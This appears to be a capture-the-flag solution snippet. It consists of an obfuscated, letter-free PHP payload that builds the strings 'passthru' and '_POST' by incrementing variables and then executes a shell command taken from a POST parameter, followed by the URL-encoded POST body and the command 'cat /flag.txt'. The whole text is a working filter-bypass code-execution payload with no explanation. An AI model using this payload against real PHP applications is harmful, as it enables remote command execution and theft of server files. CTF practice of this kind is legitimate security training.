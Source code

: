 ```php
$___++;$_1=$___; // b
$___++;$_2=$___; // c
$___++;$_3=$___; // d
$___++;$__1=$___; // e
$___++;$__2=$___; // f
$___++;$__3=$___; // g
$___++;$___1=$___; // h
$___++;$___2=$___; // i
$___++;$___3=$___; // j
$___++;$____1=$___; // k
$___++;$____2=$___; // l
$___++;$____3=$___; // m
$___++;$_____1=$___; // n
$___++;$_____2=$___; // o
$___++;$_____3=$___; // p
$___++;$______1=$___; // q
$___++;$______2=$___; // r
$___++;$______3=$___; // s
$___++;$_______1=$___; // t
$___++;$_______2=$___; // u
$___++;$_______3=$___; // v
$___++;$________1=$___; // w
$___++;$________2=$___; // x
$___++;$________3=$___; // y
$___++;$_________1=$___; // z

$_01=$_____3.$_0.$______3.$______3.$_______1.$___1.$______2.$_______2;//passthru
$_02=$__.$_____3.$_____2.$______3.$_______1; //_post
$__=$$_02;
$_01($__[_]);
```

post的表单数据：

```html
ctf_show=
%24_%3D%3C%3C%3C_%0AC%0A_%3B%0A%24__%3D%3C%3C%3CC%0A_%0AC%3B%0A%0A%24_%2B%2B%3B%24_%2B%2B%3B%0A%24_%2B%2B%3B%24_%2B%2B%3B%0A%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24_%2B%2B%3B%24___%3D%24_%5B1%5D%3B%20%0A%0A%24_0%3D%24___%3B%20%0A%24___%2B%2B%3B%24_1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_3%3D%24___%3B%20%0A%24___%2B%2B%3B%24__1%3D%24___%3B%20%0A%24___%2B%2B%3B%24__2%3D%24___%3B%20%0A%24___%2B%2B%3B%24__3%3D%24___%3B%20%0A%24___%2B%2B%3B%24___1%3D%24___%3B%20%0A%24___%2B%2B%3B%24___2%3D%24___%3B%20%0A%24___%2B%2B%3B%24___3%3D%24___%3B%20%0A%24___%2B%2B%3B%24____1%3D%24___%3B%20%0A%24___%2B%2B%3B%24____2%3D%24___%3B%20%0A%24___%2B%2B%3B%24____3%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_____3%3D%24___%3B%20%0A%24___%2B%2B%3B%24______1%3D%24___%3B%20%0A%24___%2B%2B%3B%24______2%3D%24___%3B%20%0A%24___%2B%2B%3B%24______3%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______1%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______2%3D%24___%3B%20%0A%24___%2B%2B%3B%24_______3%3D%24___%3B%20%0A%24___%2B%2B%3B%24________1%3D%24___%3B%20%0A%24___%2B%2B%3B%24________2%3D%24___%3B%0A%24___%2B%2B%3B%24________3%3D%24___%3B%0A%24___%2B%2B%3B%24_________1%3D%24___%3B%0A%0A%24_01%3D%24_____3.%24_0.%24______3.%24______3.%24_______1.%24___1.%24______2.%24_______2%3B%0A%24_02%3D%24__.%24_____3.%24_____2.%24______3.%24_______1%3B%0A%24__%3D%24%24_02%3B%0A%24_01(%24__%5B_%5D)%3B
&_=cat /flag.txt
```

